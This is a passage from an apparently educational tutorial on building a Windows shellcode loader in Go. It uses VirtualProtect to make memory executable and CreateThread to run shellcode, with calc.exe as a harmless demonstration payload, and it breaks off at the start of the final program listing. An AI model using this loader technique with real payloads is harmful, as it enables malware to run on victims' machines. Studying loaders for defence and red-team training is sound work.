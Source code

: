 ### VirtualProtect

> [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

We're now going to change the rights of the memory zone to make it executable.

> [https://pkg.go.dev/golang.org/x/sys/windows#VirtualProtect](https://pkg.go.dev/golang.org/x/sys/windows#VirtualProtect)

```go
var oldProtect uint32  
err = windows.VirtualProtect(  
	shellcodeExec, //[in] LPVOID lpAddress,  
	uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
	windows.PAGE_EXECUTE_READ, //[in] DWORD flNewProtect,  
	&oldProtect, //[out] PDWORD lpflOldProtect  
)  
if err != nil {  
	log.Fatal("Error while VirtualProtect:", err)  
}  
fmt.Scanln()
```
This function works a bit like VirtualAlloc. We give it the address of our shellcode, the size, the new rights, and oldProtect will contain the old rights. After modifying the memory zone, we see that we're no longer in Read Write mode, but in Execute Read mode.
![](img4.png)
### CreateThread

> [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)

We'll end up creating a new Thread. This function doesn't exist in the Windows package, so we'll do it by hand. To find out if it's present in kernel32.dll, simply consult the Microsoft documentation. 
```go
kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
createThread := kernel32.NewProc("CreateThread")
hThread,_,_ := createThread.Call(
		0,                                 //lpThreadAttributes
		0,                                 //dwStackSize
		shellcodeExec,                     //lpStartAddress
		uintptr(0),                        //lpParameter
		0,                                 //dwCreationFlag
		0)                                 //lpThreadId
```
What's really important is the `lpStartAddress`, which contains the address of our shellcode. Normally, at this point we should have `calc.exe` running.
## Result

```go
package main  
  
import (  
	"encoding/hex"  
	"golang.org/x/sys/windows"  
	"log"  
	"unsafe"  
)  
  
var (  
	kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
	createThread = kernel32.NewProc("CreateThread")  
)  
```